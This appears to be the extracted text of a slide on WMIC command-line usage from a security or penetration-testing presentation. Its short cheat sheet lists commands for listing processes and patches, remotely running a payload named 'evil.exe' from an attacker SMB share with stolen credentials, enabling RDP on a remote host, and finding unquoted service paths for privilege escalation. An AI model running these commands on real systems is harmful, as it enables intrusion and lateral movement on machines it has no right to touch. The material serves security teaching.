

# Command Line Usage
List Running Processes
wmic process list
List installed patches
wmic qfe
Remotely Execute Program
wmic /node:[ip] /user:[domain]\[user] /password:[pass] process call create "\\[smb ip]\share\evil.exe"
Remotely start RDP
wmic /node:[machine name] path Win32_TerminalServiceSetting where AllowTSConnections="0" call SetAllowTSConnections "1"
Search for unquoted service paths
wmic service get name,displayname,pathname,startmode |findstr /I "auto" |findstr /I /v "C:\windows\\" | findstr /I /v """
https://www.commonexploits.com/unquoted-service-paths/